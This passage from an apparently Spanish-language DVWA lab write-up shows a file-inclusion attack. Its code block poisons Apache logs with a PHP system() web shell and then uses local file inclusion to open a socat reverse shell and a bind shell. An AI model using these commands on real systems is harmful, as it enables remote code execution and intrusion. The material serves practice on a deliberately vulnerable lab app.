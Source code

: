 Ahora ya podemos realizar el ataque:

```
# 1- Envenenar los logs
$ echo "<?PHP echo system(\$_GET['y'])?>" | nc 127.0.0.1 80
# 2- Ejecución de código
## Reverse shell:
$ rlwrap nc -nvlp 1111
$ file="/var/log/apache2/access.log&y=socat TCP4:172.17.0.1:1111 EXEC:/bin/bash";curl -s http://127.0.0.1/vulnerabilities/fi/\?page=$file --cookie "PHPSESSID=e5di55blqu41hcnhsk1cv7l1d1;security=medium"

## Bind shell:
$ file="/var/log/apache2/access.log&y=socat -d -d TCP4-LISTEN:2222 EXEC:/bin/bash";curl -s http://127.0.0.1/vulnerabilities/fi/\?page=$file --cookie "PHPSESSID=e5di55blqu41hcnhsk1cv7l1d1;security=medium"
$ rlwrap nc 172.17.0.2 2222
```



# File Upload

![File upload](https://github.com/sapellaniz/dvwa/blob/master/img/file-upload-00.png)
